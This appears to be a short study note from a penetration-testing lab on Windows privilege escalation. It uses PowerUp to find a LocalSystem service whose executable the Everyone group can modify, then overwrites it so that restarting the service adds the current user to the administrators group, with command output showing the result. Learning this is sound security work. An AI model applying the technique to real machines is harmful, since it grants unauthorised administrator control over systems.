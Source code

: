 
This is similar to the [[Registry#^VulnService|Vulnerable registry service]] attack. Instead of adding an `ImagePath`, in this case there is already an executable available on the disk. The easiest way to find such services is using `PowerUp`.

```PowerShell
.
.
[*] Checking service executable and argument permissions...


ServiceName                     : filepermsvc
Path                            : "C:\Program Files\File Permissions Service\filepermservice.exe"
ModifiableFile                  : C:\Program Files\File Permissions Service\filepermservice.exe
ModifiableFilePermissions       : {ReadAttributes, ReadControl, Execute/Travers
                                  e, DeleteChild...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'filepermsvc'
CanRestart                      : True
.
.
```

It identifies that there is a file that can be modified by anyone (`ModifiableFileIdentityReference`) at `C:\Program Files\File Permissions Service\filepermservice.exe`.

We can simply overwrite this file with an [[Registry#^Executable|executable]] that will add a user to the administrators group and start the service.

```PowerShell
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

------------------------------------------------------------------
Administrator
TCM
The command completed successfully.


C:\Users\user>sc start filepermsvc

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3452
        FLAGS              :

C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
```

